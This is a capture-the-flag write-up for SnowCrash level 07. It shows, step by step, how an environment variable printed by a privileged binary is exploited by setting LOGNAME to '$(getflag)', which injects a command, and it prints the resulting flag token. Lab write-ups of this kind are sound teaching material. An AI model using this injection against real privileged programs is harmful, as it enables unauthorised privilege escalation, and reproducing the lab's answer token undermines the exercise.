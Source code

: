 Level 07
========

This one was the easiest of all

*	There is no file to be found except the executable that we get in the root
*	First thing I did was to try it
	```console
	level07@SnowCrash:~$ ./level07 
	level07
	```
*	From this point I two options in mind
	*	The program prints the programs arguments starting from 0
	*	The program prints an env variable
*	I tried adding arguments but nothing changed so that's not it
*	So I took a look at `$USER` and tried to change it but nothing changed
	```console
	level07@SnowCrash:~$ export USER=getflag
	level07@SnowCrash:~$ ./level07 
	level07
	```
*	Last option we had was to change the `$LOGNAME`
	```console
	level07@SnowCrash:~$ export LOGNAME=test
	level07@SnowCrash:~$ ./level07 
	test
	```
*	Now the rest is simple, I just need to make it so the program prints the result of `getflag`
	```console
	level07@SnowCrash:~$ export LOGNAME='$(getflag)'
	level07@SnowCrash:~$ ./level07
	Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
	```

REMEDY
======

Either avoid executing the program as a super user or just disable interpretation when using echo on something !
